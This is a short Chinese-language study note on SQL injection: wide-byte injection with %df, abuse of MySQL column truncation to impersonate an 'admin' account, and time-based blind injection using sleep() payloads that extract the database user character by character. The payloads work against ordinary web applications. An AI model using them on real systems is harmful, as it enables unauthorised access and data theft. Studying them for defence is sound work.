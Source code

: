 

5.宽字节注入

https://blog.csdn.net/qq_35191331/article/details/77206519

宽字符:
（1）%27 '
（2）%20 空格
（3）%23 #
（4）%df 運（说明,也可以是其他的%d1之类，解析之后变成中文字符）



6.长字符截断

> 例如我有一张表是
>
> create table users{
>
> ​	id int(11) not null,
>
> ​	username varchar(7) not null,
>
> ​	password varchar(12) not null
>
> }
>
> 这样用户名最大长度为7位当我们插入了8位的时候MySQL会自动帮我们截断并且默认是warning
>
> 例如数据库中有一个管理员用户是admin
>
> 我们使用这条语句可以模仿插入
>
> insert into users(id,username,password) values(3,"admin   x","admin");
>
> 这样数据库就会将x截断不保留
>
> 我们就可以使用自己的admin进行认证   

7.使用延迟注入来判断是否注入成功

> sleep(n)
>
> 可以使用这个函数来判断
>
> 如果网站没有回显可以使用这个来判断是否执行成功
>
> and if(length(user())=0,sleep(3),1) 使用,来进行依次运算如果第一个成功则会延迟三秒
>
> and if(hex(mid(user(),1,1))=1,sleep(3),1)取出第一个字符,然后与ascii码进行循环对比
>
> and if(hex(mid(user(),L,1))=N,sleep(3),1)这样一个一个破解来判断用户名
>
> 这样可以用于无回显的网站77

